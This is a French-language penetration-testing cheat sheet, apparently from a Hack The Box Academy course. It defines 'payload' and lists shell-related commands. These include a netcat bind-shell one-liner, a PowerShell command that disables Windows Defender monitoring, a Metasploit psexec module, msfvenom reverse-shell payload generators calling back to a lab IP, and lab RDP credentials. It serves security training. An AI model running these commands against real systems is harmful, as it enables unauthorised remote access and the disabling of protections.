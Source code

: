 #basics #shell #linux #command #payloads #bash 


**Au sein de l'industrie informatique dans son ensemble, `Payload`peut être défini de différentes manières :**

-   `Networking`: La partie de données encapsulée d'un paquet traversant les réseaux informatiques modernes.
-   `Basic Computing`: Une charge utile est la partie d'un jeu d'instructions qui définit l'action à entreprendre. En-têtes et informations de protocole supprimés.
-   `Programming`: La partie de données référencée ou transportée par l'instruction du langage de programmation.
-   `Exploitation & Security`: Une charge utile est `code`conçue dans le but d'exploiter une vulnérabilité sur un système informatique. Le terme charge utile peut décrire divers types de logiciels malveillants, y compris, mais sans s'y limiter, les rançongiciels.
```bash

```

| **Commands**                                                                                        | **Description**                                                                                                                                                                                         |
|:--------------------------------------------------------------------------------------------------- |:------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `xfreerdp /v:10.129.x.x /u:htb-student /p:HTB_@cademy_stdnt!`                                       | CLI-based tool used to connect to a Windows target using the Remote Desktop Protocol                                                                                                                    |
| `python3 -c "import pty; pty.spawn('/bin/bash')"`                                                   | generate a tty shell calling python (works on linux and windows)                                                                                                                                                                                                       |
| `env`                                                                                               | Works with many different command language interpreters to discover the environmental variables of a system. This is a great way to find out which shell language is in use                             |
| `sudo nc -lvnp <port #>`                                                                            | Starts a `netcat` listener on a specified port                                                                                                                                                          |
| `nc -nv <ip address of computer with listener started><port being listened on>`                     | Connects to a netcat listener at the specified IP address and port                                                                                                                                      |
| `rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f \| /bin/bash -i 2>&1 \| nc -l 10.129.41.200 7777 > /tmp/f` | Uses netcat to bind a shell (`/bin/bash`) the specified IP address and port. This allows for a shell session to be served remotely to anyone connecting to the computer this command has been issued on |
| `Set-MpPreference -DisableRealtimeMonitoring $true`                                                 | Powershell command using to disable real time monitoring in `Windows Defender`                                                                                                                          |
| `use exploit/windows/smb/psexec`                                                                    | Metasploit exploit module that can be used on vulnerable Windows system to establish a shell session utilizing `smb` & `psexec`                                                                         |
| `shell`                                                                                             | Command used in a meterpreter shell session to drop into a `system shell`                                                                                                                               |
| `msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > nameoffile.elf`      | `MSFvenom` command used to generate a linux-based reverse shell `stageless payload`                                                                                                                     |
| `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > nameoffile.exe`        | MSFvenom command used to generate a Windows-based reverse shell stageless payload                                                                                                                       |
| `msfvenom -p osx/x86/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f macho > nameoffile.macho`    | MSFvenom command used to generate a MacOS-based reverse shell payload                                                                                                                                   |
| `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.113 LPORT=443 -f asp > nameoffile.asp`  | MSFvenom command used to generate a ASP web reverse shell payload                                                                                                                                       |
| `msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f raw > nameoffile.jsp`       | MSFvenom command used to generate a JSP web reverse shell payload                                                                                                                                       |